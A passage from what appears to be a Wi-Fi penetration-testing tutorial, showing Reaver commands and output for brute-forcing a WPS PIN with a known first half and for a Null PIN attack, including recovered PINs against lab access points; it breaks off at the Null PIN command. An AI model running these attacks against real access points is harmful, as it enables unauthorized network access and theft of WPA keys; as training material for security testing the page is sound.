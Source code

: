 [+] Waiting for beacon from AE:EB:B0:11:A0:1E
[+] Received beacon from AE:EB:B0:11:A0:1E
[!] Found packet with bad FCS, skipping...
[+] Associated with AE:EB:B0:11:A0:1E (ESSID: HackMe)
[+] Associated with AE:EB:B0:11:A0:1E (ESSID: HackMe)
[+] Associated with AE:EB:B0:11:A0:1E (ESSID: HackMe)
[+] WPS PIN: '96457896'
[+] WPA PSK: '&lt;SNIP&gt;'
[+] AP SSID: 'HackMe'
</code></pre>
<hr/>
<h3>Bruteforcing using half known WPS PIN</h3>
<p>If we know the first four digits of the WPS PIN, we can use Reaver to bruteforce the remaining four digits. We can provide the known half PIN using the <code>-p</code> option followed by the first four digits. For example, if the known first half of the PIN is 1234, we would use <code>-p 1234</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ reaver -i mon0 -b B2:A5:1D:E1:B2:11 -c 1 -p 1234

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner &lt;<a class="__cf_email__" data-cfemail="2a49424f4c4c444f586a5e4b49444f5e59454604494547" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;

[+] Waiting for beacon from B2:A5:1D:E1:B2:11
[+] Received beacon from B2:A5:1D:E1:B2:11
[!] Found packet with bad FCS, skipping...
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] 90.91% complete @ 2024-06-21 11:32:33 (0 seconds/pin)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] 91.48% complete @ 2024-06-21 11:34:23 (1 seconds/pin)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] WPS PIN: '12345678'
[+] WPA PSK: '&lt;SNIP&gt;'
[+] AP SSID: 'GammerZone'
</code></pre>
<hr/>
<h3>Testing for Null PIN</h3>
<p>Suppose neither of these succeed, we could also attempt a <code>Null PIN</code> attack. Some access points are vulnerable to Null PIN attacks and will even disclose the WPA-PSK when no PIN is sent. We can do so by employing the following command, specifying the Null PIN with <code>-p ""</code> or <code>-p " "</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ reaver -b 5A:1A:59:B7:E7:97 -c 1 -i mon0 -p " "
